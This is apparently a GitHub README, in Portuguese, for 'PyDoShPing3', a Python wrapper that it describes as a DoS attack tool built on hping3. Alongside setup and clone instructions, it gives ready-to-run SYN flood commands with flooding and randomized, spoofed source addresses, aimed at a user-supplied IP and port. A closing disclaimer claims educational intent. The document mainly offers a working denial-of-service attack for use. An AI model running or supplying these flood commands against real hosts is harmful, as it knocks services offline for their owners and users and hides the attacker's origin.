<h1 align="center">PyDoShPing3</h1>

<img src="https://github.com/ghostn4444/DoS-Attack/blob/main/fotor_2023-3-25_20_18_24.png" >

```
██╗  ██╗██████╗ ██╗███╗   ██╗ ██████╗ ██████╗ 
██║  ██║██╔══██╗██║████╗  ██║██╔════╝ ╚════██╗
███████║██████╔╝██║██╔██╗ ██║██║  ███╗ █████╔╝
██╔══██║██╔═══╝ ██║██║╚██╗██║██║   ██║ ╚═══██╗
██║  ██║██║     ██║██║ ╚████║╚██████╔╝██████╔╝
╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═══╝ ╚═════╝ ╚═════╝

██████╗  ██████╗ ███████╗  .--.  @Ghotsn4444
██╔══██╗██╔═══██╗██╔════╝ █|__| .-------.
██║  ██║██║   ██║███████╗ █|=.| █|.-----.|
██║  ██║██║   ██║╚════██║ █|--| █|| DoS ||
██████╔╝╚██████╔╝███████║ █|  | █|'-----'|
╚═════╝  ╚═════╝ ╚══════╝ █|__|~')_____(' 

[*] IP: 
[*] PORT:
```
# Descrição:
### Ferramenta de ataque DoS simples em python.

## Requirements
  * Python3
  * hPing3


### hping3
```bash
sudo apt install hping3
```

### Clone this repository
<code>git clone https://github.com/ghostn4444/DoS-Attack.git</code>

### Enter the directory
<code>cd PyDoShPing3</code>

### Install all modules
<code>pip3 install -r files/requirements.txt</code>

### Run the tool
<code>python3 PyDoShPing3.py</code>

## Requirements in Python
  * colorama
  * datetime
 
## Options
 
 ```bash
--rand-source   	Ocutar IP Pacote randomico
--flood 		faz o SYN flood ou o ataque DOS no host de destino.
-d  --data		tamanho dos dados
-a --spoof		dirección de origen falsa
contagem de pacotes	contagem de pacotes
-d 			tamanho dos pacotes
-S			Para enviar pacotes SYN para o endereço IP de destino
-V			verbose mode

# standard
hping3 -S --rand-source --flood -V -p "PORTS" -d 120 "IP"
 
# other modes
hping3 -c 100000 -d 10000 -S -p "PORTS" --flood --rand-source "IP" 
 ```
 
# [!]Isenção de responsabilidade
## Esta ferramenta é desenvolvida para fins educacionais. Você tem suas próprias responsabilidades e é responsável por qualquer dano ou violação de leis por esta ferramenta. O autor não é responsável por qualquer uso indevido do PyDoShPing3! 
 
 # Este repositório é de código aberto para ajudar os outros. Portanto, se desejar copiar, considere dar os créditos! 
